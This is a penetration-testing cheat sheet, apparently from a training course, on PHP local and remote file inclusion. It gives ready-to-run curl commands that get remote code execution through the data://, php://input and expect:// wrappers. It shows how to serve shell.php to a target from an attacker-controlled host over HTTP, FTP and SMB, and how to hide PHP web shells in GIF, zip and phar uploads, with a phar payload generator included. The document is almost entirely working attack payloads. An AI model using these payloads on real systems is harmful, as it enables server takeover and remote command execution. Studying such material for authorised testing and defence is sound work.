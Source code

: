 ### PHP Wrappers
|**Command**|**Description**|
|---|---|
|`curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'`|RCE with data wrapper|
|`curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`|RCE with input wrapper|
|`curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`|RCE with expect wrapper|

### Remote File Inclusion
>**ℹ️ Info:**
>
>Check first using a local URL like `http://127.0.0.1:80/index.php` in the vulnerable parameter to check for RFI.

|**Command**|**Payload**|
|---|---|
|`python3 -m http.server` | `http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` |
|`python -m pyftpdlib -p 21` | `ftp://<OUR_IP>/shell.php&cmd=id` |
|`smbserver.py -smb2support share $(pwd)` | `\\<OUR_IP>\share\shell.php&cmd=whoami` |
## Local File Inclusion & File Upload
### Image Upload
>**ℹ️ Info:**
>
>Check for other extensions/file type allowed.

|Payload | LFI |
| -------- | -------- |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | `/index.php?language=./profile_images/shell.gif&cmd=id` |
### Zip Upload
>**ℹ️ Info:**
>
>`#` is URL-encoded as `%23`.

|Payload | LFI |
| -------- | -------- |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | `/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id` |

### Phar Upload
Payload creator, save this to `shell.php`:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
